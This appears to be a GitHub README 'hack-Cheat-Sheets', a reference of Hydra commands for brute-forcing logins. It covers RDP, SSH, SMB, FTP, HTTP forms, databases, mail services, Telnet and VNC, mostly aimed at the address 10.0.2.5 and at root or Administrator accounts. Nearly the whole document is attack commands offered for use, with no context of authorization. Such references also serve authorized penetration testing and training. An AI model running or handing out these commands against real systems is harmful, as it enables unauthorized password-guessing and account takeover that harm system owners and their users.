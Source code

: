 # hack-Cheat-Sheets
This repo has a collection of snippets of codes and commands to help our lives! The main purpose is not be a crutch, this is a way to do not waste our precious time.


## Resources
i find these Repos very userfull 
- [Kali linux cheat sheet](https://github.com/NoorQureshi/kali-linux-cheatsheet)

---
## Ninja Table
1. [Hydra cheat sheet](#1-Hydra-Cheat-Sheet)


---




## 1. Hydra Cheat Sheet


## RDP
```bash
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V


## SSH

```bash
hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```

## SMB

```bash
hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
```

## FTP

```bash
hydra -l root -P passwords.txt -f ftp://10.0.2.5 -V
```

## HTTP Basic Auth

```bash
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```

## HTTP POST

```bash
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form \
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```

## IMAP

```bash
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```

## MySQL

```bash
hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
```

## POP3

```bash
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

## Redis

```bash
hydra -P password.txt redis://10.0.2.5 -V
```

## Rexec

```bash
hydra -l root -P password.txt rexec://10.0.2.5 -V
```

## Rlogin

```bash
hydra -l root -P password.txt rlogin://10.0.2.5 -V
```

## RSH

```bash
hydra -L username.txt rsh://10.0.2.5 -V
```

## RTSP

```bash
hydra -l root -P passwords.txt <IP> rtsp
```

## SMTP

```bash
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V  # Port 587 for SMTP with SSL
```

## Telnet

```bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
```

## VNC

```bash
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt -s <PORT> <IP> vnc
```

